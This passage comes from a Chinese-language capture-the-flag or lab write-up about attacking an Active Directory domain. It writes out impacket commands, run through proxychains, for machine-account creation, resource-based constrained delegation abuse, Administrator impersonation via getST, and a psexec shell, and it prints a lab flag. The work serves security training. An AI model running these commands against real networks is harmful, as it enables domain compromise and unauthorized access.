 ```
proxychains4 -q impacket-addcomputer -computer-name 'xrntkk$' -computer-pass 'Abc123456' -dc-host XR-DC01.xiaorang.lab -dc-ip 172.22.15.13 "xiaorang.lab/lixiuying:winniethepooh"
```

![image-20250430171637739](../assets/image-20250430171637739.png)

配置RDBC

```
proxychains4 -q impacket-rbcd xiaorang.lab/lixiuying:winniethepooh -action write -delegate-from "xrntkk$" -delegate-to "XR-0687$" -dc-ip 172.22.15.13
```

![image-20250430172409848](../assets/image-20250430172409848.png)

使用 impacket工具的getST执行基于资源的约束性委派工具并获取拥有访问XR-0687机器上的GIFS服务的高权限票据

```
proxychains4 -q impacket-getST xiaorang.lab/xrntkk$:'Abc123456' -spn cifs/XR-0687.xiaorang.lab -impersonate Administrator -dc-ip 172.22.15.13
```

导入票据

```
export KRB5CCNAME=Administrator@cifs_XR-0687.xiaorang.lab@XIAORANG.LAB.ccache
```

接下来psexec连主机就好了

```
proxychains4 -q impacket-psexec 'xiaorang.lab/administrator@XR-0687.xiaorang.lab' -target-ip 172.22.15.35 -codec gbk -no-pass -k
```

![image-20250430173436078](../assets/image-20250430173436078.png)

flag3

```
C:\Users\Administrator\flag> type flag03.txt
  __ _            __ ____
 / _| |__ _ __ _ /  \__ /
|  _| / _` / _` | () |_ \
|_| |_\__,_\__, |\__/___/
           |___/

flag03: flag{40c21602-c68d-4667-892f-bbb24d452eb4}

```



### FLAG4-CVE-2022-26923

![image-20250430175027180](../assets/image-20250430175027180.png)
